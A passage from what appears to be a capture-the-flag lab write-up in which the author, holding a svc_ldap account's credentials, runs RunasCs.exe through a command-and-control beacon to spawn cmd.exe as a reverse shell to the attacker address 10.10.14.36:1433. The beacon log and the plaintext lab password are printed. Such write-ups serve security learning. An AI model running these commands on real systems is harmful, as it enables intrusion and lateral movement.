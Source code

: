 okey maybe its about svc_winrm is not part of this group

![alt text](../assets/images/voleur15.png)

we have **svc_ldap** user creds we can create beacon.

```bash
[07/05 19:54:12] beacon> execute-assembly /home/elliot/tools/RunasCs.exe svc_ldap M1XyC9pW7qT5Vn "cmd.exe" -r 10.10.14.36:1433
[07/05 19:54:12] [*] Tasked beacon to run .NET program: RunasCs.exe svc_ldap M1XyC9pW7qT5Vn "cmd.exe" -r 10.10.14.36:1433
[07/05 19:54:12] [+] host called home, sent: 161062 bytes
[07/05 19:54:14] [+] received output:
[*] Warning: The logon for user 'svc_ldap' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5d163d$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 2300 created in background.
```

and lets load beacon
